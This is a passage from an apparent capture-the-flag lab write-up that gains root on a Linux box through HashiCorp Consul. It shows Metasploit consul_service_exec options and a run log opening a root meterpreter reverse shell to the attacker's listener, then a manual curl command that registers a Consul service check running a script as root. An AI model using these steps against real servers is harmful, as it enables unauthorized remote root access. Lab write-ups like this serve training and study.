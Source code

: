 ```
   URIPATH                                          no        The URI to use for this exploit (default is random)
   VHOST                                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.8       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux
```

And we have root access and can simply access root shell if we want to!
```
msf6 exploit(multi/misc/consul_service_exec) > run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] Creating service 'GWpSvUawj'
[*] Service 'GWpSvUawj' successfully created.
[*] Waiting for service 'GWpSvUawj' script to trigger
[*] Sending stage (1017704 bytes) to 10.10.11.183
[*] Meterpreter session 2 opened (10.10.14.8:4444 -> 10.10.11.183:52326) at 2022-11-25 14:35:02 +0100
[*] Removing service 'GWpSvUawj'
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > getuid 
Server username: root
meterpreter > sysinfo
Computer     : 10.10.11.183
OS           : Ubuntu 20.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

## The Manual Way

We will register a new service using following command:
```
developer@ambassador:/tmp$ curl -X PUT -d '{"ID": "id", "Name": "name", "Address": "127.0.0.1", "Port": 80, "check": {"Args": ["/usr/bin/bash", "/tmp/run.sh"], "interval": "10s", "timeout": "1s"}}' -H 'X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5' http://127.0.0.1:8500/v1/agent/service/register 
```
